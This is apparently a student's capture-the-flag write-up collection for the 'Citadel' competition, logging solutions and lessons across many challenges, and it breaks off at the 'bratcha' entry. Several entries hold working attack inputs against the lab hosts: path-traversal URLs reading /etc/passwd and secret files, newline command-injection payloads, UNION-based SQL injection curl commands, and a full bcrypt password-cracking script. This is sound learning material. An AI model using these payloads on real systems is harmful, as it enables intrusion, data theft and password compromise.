








# CITADEL WRITEUPS BY ARYAN GUPTA(AKG451)

`--------------------------------------------------------------------------------------------------------------------`

# Challenge Name
Zahard Welcome

## My solve
**Flag:** `citadel{7h3_c174d3l_b3ck0n5}`

It told us to visit the place everywhere gathers so I first checked into the general section of the official discord server but in the meanwhile my teammate checked for other sections eventually we got the flag simply pasted in `Rules` Section of Discord.

## What I learned
Basic Searching Through Discord

## References 
None

`--------------------------------------------------------------------------------------------------------------------`

# Challenge Name
Omniscent Metadata

## My solve
**Flag:** `citadel{th1s_ch4ll3ng3_1s_f0r_th4t_0n3_ex1ft00l_4nd_b1nw4lk_enthus14st}`

1. I firstly went to a metadata extracter website and took out teh metadata inside the metadata it was written "kdj has the habit of hiding image inside an image".
2. I first thought this can be a steganography question just like the one in ChildrenOfNite challenge so I ran the command `steghide extract -sf challenge.jpg` but to run such commands you need to know the paraphase which I didn't in this case.
3. Since I wasn't sure what to do next I searched `How to find a image inside an image` there I found a video by ctf school on binwalker and next I used binwalker to finally get the flag.
Note: After reading the official Write-up I understood that this exercise was very easy and I just had to use `foremost`

## What I learned
How to use Binwalker

## References 
CTF SCHOOL VIDEO: https://youtube.com/shorts/79k8Ps82VaM?si=P_R8a5GROaRn8ZDv

`--------------------------------------------------------------------------------------------------------------------`

# Challenge Name
Taste Of Sweetness

## My solve
**Flag:** `citadel{fru1tc4k3_4nd_c00k13s}`

This one was comparatively easier for me. I have learnt MERN stack in the past and hence knew about the cookie feature before-hand. So when the website told me "How does website remember you" I just opened the inspect window and edited the cookie value from user to admin by going into Application part of inspect.

## What I learned
Cookie editing

## References 
None

`--------------------------------------------------------------------------------------------------------------------`

# Challenge Name
Rotten Apple

## My solve
**Flag:** `citadel{b3tt3r_ROTt3n}`

My teammate put the ciphertext into google to realise it was `ROT cipher` after that we used Chatgpt to do the remain 13 and 47 shift and got the flag.

## What I learned
ROT Cipher

## References 
Chatgpt

`--------------------------------------------------------------------------------------------------------------------`

# Challenge Name
Randomly accessed Memory

## My solve
**Flag:** `citadel{w3_4r3_up_4ll_n1t3_t0_g1t_lucky}`

1.Since I saw 
```bash
clone it, pull it, reset it, stage it, 
commit, push it, fork, rebase it. 
merge it, branch it, tag it, log it, 
add it, stash it, diff, untrack it … 
```
I thought I just had to execute these commands using bash on the repo link given. So i went into my bash and i tried to clone it but the access was denied so I understood this wasn't the right way and hence i decided to look furthur.
2.My teammates started searching through all files and I started searching the commits. I found the first suspicious commit with the name `Remove secret chunk 3 file (history-only)` I loaded it and got a strange ciphertext. Putting it into chatgpt it told me that it was a base64 encode text and the decoded text is this: `dDBfZzF0X2x1Y2t5fQ== → t0_g1t_lucky}` now i knew that we are on the right path and hence we all started searching the commit history and eventually getting all the parts of the flag.
## What I learned
Reading the commit history of a repository.

## References 
None

`--------------------------------------------------------------------------------------------------------------------`

# Challenge Name
Robot's trail

## My solve
**Flag:** `citadel{p4th_tr4v3rs4l_m4st3ry_4ch13v3d}`

1. I first did inspect to know more about the website code there I saw `/robots.txt` inside a href tag using that i entered `websiteurl/robots.txt` and found
```bash
User-agent: *

# We value our digital privacy and have restricted access to certain system-level configurations.
Disallow: /file?path=../../etc/passwd
Disallow: /file?path=../../../etc/passwd

# Hint for curious explorers: 
# Sometimes system files like /etc/passwd can reveal interesting information...
# But remember to respect privacy boundaries!
```
Now I knew that we had to do url manipulation to finally get to the page which will give me the flag. So I told chatgpt all the relevant info and asked it for all possible urls that will take me to the final page containing the flag. Firstly I went to `/file?path=../../etc/passwd` this gave me 
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
webadmin:x:1000:1000:Check the web server config at /var/www/html/config.php:/home/webadmin:/bin/bash
```
Now trying various commands and stuff I progressed in the following way:
```bash
<?php
// Database configuration
$db_host = 'localhost';
$db_user = 'admin';
$db_pass = 's3cr3t_p@ssw0rd';
// Debug info: Check the access logs for unusual activity
// Log location: /var/log/apache2/access.log
?>
```
```bash
127.0.0.1 - - [01/Jan/2023:10:30:45 +0000] "GET / HTTP/1.1" 200 1234 "-" "Mozilla/5.0"
192.168.1.100 - - [01/Jan/2023:10:31:22 +0000] "GET /file?path=../../etc/passwd HTTP/1.1" 200 567 "-" "Python-urllib"
10.0.0.50 - - [01/Jan/2023:10:32:15 +0000] "GET /admin HTTP/1.1" 404 289 "-" "curl"
# Interesting environment variables might be found at /proc/self/environ
203.0.113.5 - - [01/Jan/2023:10:33:01 +0000] "POST /login HTTP/1.1" 302 - "-" "Mozilla/5.0"
```
```bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOSTNAME=web-server-01
USER=www-data
HOME=/var/www
SECRET_LOCATION=/home/ctf/.secret
PWD=/var/www/html
LANG=C.UTF-8
SHLVL=1
```
```bash
Directory listing for /home/ctf/.secret:
total 12
drwx------ 2 ctf ctf 4096 Jan  1 10:00 .
drwxr-xr-x 5 ctf ctf 4096 Jan  1 09:55 ..
-r-------- 1 ctf ctf   48 Jan  1 10:00 flag.txt
```
```bash
https://therobotstrail.citadel.cryptonitemit.in/file?path=/home/ctf/.secret/flag.txt
```
This url finally gave me the flag.

## What I learned
URL manipulation

## References 
Chatgpt

`--------------------------------------------------------------------------------------------------------------------`

# Challenge Name
schlagenheim

## My solve
**Flag:** `citadel{8lackM1D1wa5c00l}`

1. I first saw the header of the file using the `xxd` command
```bash
xxd mysong.wav | head
```
After seeing the header it was clear that the file is MIDI file and hence i opened the file in a hex editor and change the first four bytes as: `4D 54 68 64` which is the original header of a MIDI file.
```bash
hexedit mysong.wav
```
Then I finally renamed the file with `.mid` extension
```bash
mv mysong.wav mysong.mid
```
2. After reparing the file I opened it using a MIDI file viewer and got the flag as shown in the screenshot below:


## What I learned
File repairing using xxd and midi file format

## References 
Gemini AI

`--------------------------------------------------------------------------------------------------------------------`

# Challenge Name
XOR Slide

## My solve
**Flag:** ``

I have read a bit of cryptography and suspected it can be the same XOR function that is used in various encryption standards and ciphers such as "DES" i.e Data Encryption Standard.
Unfortunately I had zero idea about how to make a python script to solve the question. Because of this I decided to take the help of AIs to see if they by any chance knew how to make the python script that can solve it. The AI made a lot of python script(around 10) and after trying everything one by one I finally got the flag(Unfortunately I am not able to find the exact py file which I used for getting the flag eventually).

## What I learned
XOR decryption

## References 
Chatgpt and Gemini

`--------------------------------------------------------------------------------------------------------------------`

# Challenge Name
Sound of Music

## My solve
**Flag:** `citadel{c0mputers_st0pped_exchang1ng_1nf0rmat10n_n_started_shar1ng_st0r1es_n_then_they_were_n0where_t0_be_f0und}`

1. In this question I first searched for all music related apps where you can rate/review music. After knowing the names I created my profile on all those websites to understand how they store user profile urls.
For eg. rate your music stores profile data with this url :"https://rateyourmusic.com/~AKG451" where AKG451 is my username so I basically just changed AKG451 in all such websites by citadweller and got to the profile of `citadweller` eventually I found all three parts of the flag i.e `citadel{c0mputers_st0pped_exchang1ng_1nf0rmat10n` from `last.fm/user/citadweller`, `_n_started_shar1ng_st0r1es` from `https://rateyourmusic.com/~citadweller` and `_n_then_they_were_n0where_t0_be_f0und}` from the tinyurl link on rate your music `http://tinyurl.com/citadweller`

## What I learned
OSINT

## References 
Google

`--------------------------------------------------------------------------------------------------------------------`

# Challenge Name
Echoes and Pings

## My solve
**Flag:** `citadel{1_r34lly_w4nt_t0_st4y_4t_y0ur_h0us3}`

1. When i first saw the `pcap` file my first reaction was searching on the internet to understand "how to analyse a pcap file". The first answer was `wireshark` so I installed wireshark and loaded the file into it. Unfortunately I didn't understood anything that was being displayed there.
2. So it was time to search on youtube for "How to use wireshark to analyse pcap" I have attached the link of the video I used to learn about it plus I also asked AI what can be the process of analysing such files. Chatgpt suggested me to look into "ICMP" that is internet control message protocol since that's what deals with echoes and pings.
3. I am attaching images to show what I did and how I did:

image1:Start Screen after Loading the file

image2:Filtering to icmp only

image3:Opening the first protocol

4.Now I saw the text "jfif" searched for it on chatgpt and got to know that there is a image hidden in it.
5. To extract that image chatgpt wrote a scapy python code which I ran and got the answer using that python script.
6. the python script: 
```bash
from scapy.all import rdpcap, Raw

# The name of your pcap file
pcap_file = 'challenge.pcap'

# Variable to hold the reassembled file data
full_data = b''

# Read the pcap file
packets = rdpcap(pcap_file)

# Loop through every packet in the file
for packet in packets:
    # Check if the packet has an ICMP layer AND a data payload (Raw layer)
    if packet.haslayer('ICMP') and packet.haslayer('Raw'):
        # Extract the raw data payload and append it
        full_data += packet['Raw'].load

# Write the combined binary data to a new file
with open('extracted_file', 'wb') as f:
    f.write(full_data)

print(f"Extraction complete! Data saved to 'extracted_file'.")
print("Next, use the 'file' command to identify its type (e.g., 'file extracted_file').")
```
7. Eventually I got the image which had the flag:  
## What I learned
How to use wireshark and ICMP

## References 
yt video: "https://youtu.be/ZNS115MPsO0?si=TkDHZEyhJcw95LdI"
Chatgpt
Google

`--------------------------------------------------------------------------------------------------------------------`

# Challenge Name
The Ripper

## My solve
**Flag:** `citadel{fake_flag_4_fake_pl4y3rs}`

I already knew a little bit about john the ripper so what i did is that i asked chatgpt about how to implement a john the ripper to brute-force passwords and I found we usually need to create a bcrypt file for this purpose. So  I told chatgpt to make a bcrypt file for me and also to explain me how it works. 
Finally I pasted this command in bash which basically creates a python bcrypt file for me from the terminal itself

```bash
cat > crack_bcrypt.py <<'PY'
#!/usr/bin/env python3
"""
bcrypt_cracker - fast, practical bcrypt checker for a single hash + a wordlist.

Usage:
  1. Put your hash in a file called hash.txt (single line).
  2. Put your wordlist in wordlist.txt (one candidate per line).
  3. Run: python3 crack_bcrypt.py

Notes:
 - This script will try:
    * each line as-is
    * if a line matches citadel{...}, the inner password (contents between braces)
    * simple variants: append/prepend digits 0..99 and common suffixes
 - Uses multiprocessing to use all CPU cores.
 - Install dependency: pip3 install bcrypt
 - Output: prints the found password and writes ./found.txt
"""
import os
import sys
import re
from multiprocessing import Pool, cpu_count

try:
    import bcrypt
except Exception:
    print("Missing dependency 'bcrypt'. Install it with: pip3 install bcrypt")
    raise

HASH_FILE = "hash.txt"
WORDLIST_FILE = "wordlist.txt"
OUTPUT_FILE = "found.txt"

def load_hash(path=HASH_FILE):
    if not os.path.isfile(path):
        print(f"Hash file not found at '{path}'. Create it with the single bcrypt hash on one line.")
        sys.exit(1)
    with open(path, "r", encoding="utf-8", errors="ignore") as f:
        for line in f:
            s = line.strip()
            if s:
                return s.encode()
    print("No non-empty line found in hash file.")
    sys.exit(1)

def load_wordlist(path=WORDLIST_FILE):
    if not os.path.isfile(path):
        print(f"Wordlist file not found at '{path}'. Provide a wordlist with one entry per line.")
        sys.exit(1)
    with open(path, "r", encoding="utf-8", errors="ignore") as f:
        lines = [line.strip() for line in f if line.strip()]
    print(f"Loaded {len(lines)} words from {path}")
    return lines

def generate_variants(entry):
    entry = entry.strip()
    variants = set()
    if not entry:
        return variants

    variants.add(entry)

    m = re.match(r'citadel\{(.+)\}$', entry, flags=re.I)
    if m:
        inner = m.group(1)
        variants.add(inner)
        variants.add(f"citadel{{{inner}}}")

    if entry.startswith("{") and entry.endswith("}"):
        variants.add(entry[1:-1])

    common_suffixes = ["", "123", "!", "2025", "1", "!!", "1234"]
    for suf in common_suffixes:
        variants.add(entry + suf)
        variants.add(suf + entry)

    for d in range(100):
        s = str(d)
        variants.add(entry + s)
        variants.add(s + entry)

    leet_map = (("a","4"),("e","3"),("i","1"),("o","0"),("s","5"),("t","7"))
    def leet_variants(s):
        outs = set([s])
        for orig, sub in leet_map:
            new = s.replace(orig, sub).replace(orig.upper(), sub)
            outs.add(new)
        return outs

    for v in list(variants):
        for lv in leet_variants(v):
            variants.add(lv)

    variants = {v for v in variants if 1 <= len(v) <= 120}
    return variants

def check_candidate(bcrypt_hash, candidate):
    try:
        return bcrypt.checkpw(candidate.encode("utf-8"), bcrypt_hash)
    except Exception:
        return False

def worker_test(args):
    bcrypt_hash, candidate = args
    if check_candidate(bcrypt_hash, candidate):
        return candidate
    return None

def main():
    bcrypt_hash = load_hash()
    wordlist = load_wordlist()
    print("Preparing candidates (this may take a moment)...")
    candidates = []
    BATCH_SIZE = 20000
    pool = Pool(processes=max(1, cpu_count() - 0))

    try:
        for idx, entry in enumerate(wordlist, 1):
            for cand in generate_variants(entry):
                candidates.append((bcrypt_hash, cand))
                if len(candidates) >= BATCH_SIZE:
                    for res in pool.imap_unordered(worker_test, candidates):
                        if res:
                            print("="*60)
                            print("FOUND PASSWORD:", res)
                            print("Flag format is: citadel{password}")
                            with open(OUTPUT_FILE, "w") as out:
                                out.write(res + "\n")
                            pool.terminate()
                            return
                    candidates = []
            if idx % 500 == 0:
                print(f"Processed {idx} base words...")

        if candidates:
            for res in pool.imap_unordered(worker_test, candidates):
                if res:
                    print("="*60)
                    print("FOUND PASSWORD:", res)
                    print("Flag format is: citadel{password}")
                    with open(OUTPUT_FILE, "w") as out:
                        out.write(res + "\n")
                    pool.terminate()
                    return

        print("No match found with current transformation rules.")
    finally:
        pool.close()
        pool.join()

if __name__ == '__main__':
    main()
PY
chmod +x crack_bcrypt.py

```
After this I just ran `python3 crack_bcrypt.py` and after waiting for some time I got my flag like this:

```bash
akg451@akg451-OMEN-by-HP-Gaming-Laptop-16-xd0xxx:~/Downloads$ python3 crack_bcrypt.py
Loaded 70600 words from wordlist.txt
Preparing candidates (this may take a moment)...
Processed 500 base words...
Processed 1000 base words...
Processed 1500 base words...
Processed 2000 base words...
Processed 2500 base words...
Processed 3000 base words...
Processed 3500 base words...
Processed 4000 base words...
Processed 4500 base words...
Processed 5000 base words...
Processed 5500 base words...
Processed 6000 base words...
Processed 6500 base words...
Processed 7000 base words...
Processed 7500 base words...
Processed 8000 base words...
Processed 8500 base words...
Processed 9000 base words...
Processed 9500 base words...
Processed 10000 base words...
Processed 10500 base words...
Processed 11000 base words...
Processed 11500 base words...
Processed 12000 base words...
Processed 12500 base words...
Processed 13000 base words...
Processed 13500 base words...
Processed 14000 base words...
Processed 14500 base words...
Processed 15000 base words...
Processed 15500 base words...
Processed 16000 base words...
Processed 16500 base words...
Processed 17000 base words...
Processed 17500 base words...
Processed 18000 base words...
Processed 18500 base words...
Processed 19000 base words...
Processed 19500 base words...
Processed 20000 base words...
Processed 20500 base words...
Processed 21000 base words...
Processed 21500 base words...
Processed 22000 base words...
Processed 22500 base words...
Processed 23000 base words...
Processed 23500 base words...
Processed 24000 base words...
Processed 24500 base words...
Processed 25000 base words...
Processed 25500 base words...
Processed 26000 base words...
Processed 26500 base words...
Processed 27000 base words...
Processed 27500 base words...
Processed 28000 base words...
Processed 28500 base words...
Processed 29000 base words...
Processed 29500 base words...
Processed 30000 base words...
Processed 30500 base words...
Processed 31000 base words...
Processed 31500 base words...
Processed 32000 base words...
Processed 32500 base words...
Processed 33000 base words...
Processed 33500 base words...
Processed 34000 base words...
Processed 34500 base words...
Processed 35000 base words...
============================================================
FOUND PASSWORD: fake_flag_4_fake_pl4y3rs
Flag format is: citadel{password}
```

## What I learned
How to use John the ripper and what is a bcrypt file

## References 
Chatgpt and Google

`--------------------------------------------------------------------------------------------------------------------`

# Challenge Name
AetherCorp NetprobeX

## My solve
**Flag:** `citadel{bl4ck51t3_4cc3ss_gr4nt3d}`

For this challenge my knowledge about linux terminal commands were useful also I took help of Gemini AI for specific syntax to follow and also there were some commands I didn't knew about so in that also gemini AI helped me.Below are attached screenshots of how I solved the question but before going with this approach I did go on a tangent and tried searching through inspect element,cookies and other similar stuff thinking this challenge may have some clues hidden there. 

How I solved it:

`8.8.8.8 ; ls` I am trying to execute ls command to see all the files available on the system


`8.8.8.8 | ls` Since `;` didn't work I decided to try piping but that was also blocked


`8.8.8.8 && ls` I decided to use `&&` but that didn't work either


`8.8.8.8%0als` This command was new for me and fortunately it worked and I got to know the exact content stored in the website


`8.8.8.8%0acat mission_briefing.txt` I tried this to read into `mission_briefing` but since cat wasn't allowed the command didn't work


`8.8.8.8%0atac mission_briefing.txt` I decided to use an alternative to `cat` that is `tac` and got the below result 


`8.8.8.8%0afind / -iname "*blacksite*key*" 2>/dev/null` since it told me to search for blacksite key I did exactly that to achieve the desired result 


`8.8.8.8%0atac /var/lib/aethercorp/archive/.secrets/blacksite_key.dat` finally after knowing the exact location of the key I got the flag by running this command

## What I learned
`tac`, `%0als` and some other commands along with learning new ways to implement existing commands

## References 
Gemini AI

`--------------------------------------------------------------------------------------------------------------------`

# Challenge Name
We only go backward

## My solve
**Flag:** `citadel{f0r_0n3_m0r3_h0ur_1_c4n_r4g3}`

1.This was the most time consuming question for me since I had no idea what to do with file `tameimpala`. I first went and read it's file properties and there it showed that the file is executable type and obviously I didn't knew what that was. I ran that file with the command `./tameimpala`. After that I saw it asked for a key to proceed ahead to Level 2. I put the file into chatgpt and it told me that for this question I will have to use Ghidra or IDA for the question. I first tried with Ghidra but was having a little hard time understanding anything with it. I decided to switch to IDA since I read on google that it is comparatively more user friendly.
2. Now after installing IDA I asked for exact steps from Chatgpt on how to reverse engineer a file using IDA. Nearly after 30-60 minutes of learning from here and there I finally got the answer for Level 1 and Level 2 since they were just basically hardcoded in the function itself. In IDA I filtered strings by "LEVEL" and double clicked the level I wanted to reverse engineer. After that pressing F5 takes us to the decompilation window. This is how I got the answers for Level 1 and Level 2 which was `Music to Walk Home By` and `8168008135` respectively. But Level 3 function was much more complex since it had some encryption formula. What I did for solving this is I copied hex dump, function code, sub_1240 code and even xxxmword code and gave it to chatgpt to compute further and find me the answer by decrpyting the encryption formula and hence got the flag. I have attached all the files in the folder called `"reverse"`.

## What I learned`
How to use ghidra and IDA for decompiling codes and functions

## References 
Google,Youtube,Gemini and Chatgpt

`--------------------------------------------------------------------------------------------------------------------`

# Challenge Name
Database Incursion

## My solve
**Flag:** `citadel{wh3n_w1ll_y0u_f1nd_0u7_1f_175_5ql_0r_53qu3l?}`

This challenge was a classic example of sequel injection. I tried a lot sql injection commands with the help of AI.
Here I'll walk through the right ones to show how I proceded.`curl -G "https://databaseincursion.citadel.cryptonitemit.in/search.html" --data-urlencode "q=' UNION SELECT NULL,name,sql FROM sqlite_master WHERE type='table'-- -"` I used this command to get to the employee search directory. The biggest hint was that someone from management has the key so after trying multiple sql injection involving management and admin and other text I finally got the right one which is `curl -G "https://databaseincursion.citadel.cryptonitemit.in/search.html" --data-urlencode "q=' UNION SELECT id,name,notes,email,null FROM employees WHERE notes LIKE 'citadel%'-- -"` What this command does is that it searches through all content on the site for "citadel" text and hence gets us the flag.
some wrong commands I used are as follows:

`"curl -G "https://databaseincursion.citadel.cryptonitemit.in/search.html" --data-urlencode "q=' UNION SELECT NULL,NULL,data FROM flag-- -""`

`"curl -G "https://databaseincursion.citadel.cryptonitemit.in/search.html" --data-urlencode "q=' UNION SELECT NULL,name,tbl_name,sql,NULL FROM sqlite_master WHERE type='table'-- -""` 

`"curl -G "https://databaseincursion.citadel.cryptonitemit.in/search.html" --data-urlencode "q=' UNION SELECT NULL,NULL,NULL,password,NULL FROM secrets-- -""`

`"curl -G "https://databaseincursion.citadel.cryptonitemit.in/search.html" --data-urlencode "q=' OR 1=1-- -""`




## What I learned
SQL Injections

## References 
Grok AI, Chatgpt, Gemini AI 

`--------------------------------------------------------------------------------------------------------------------`

# Challenge Name
bratcha

## My solve
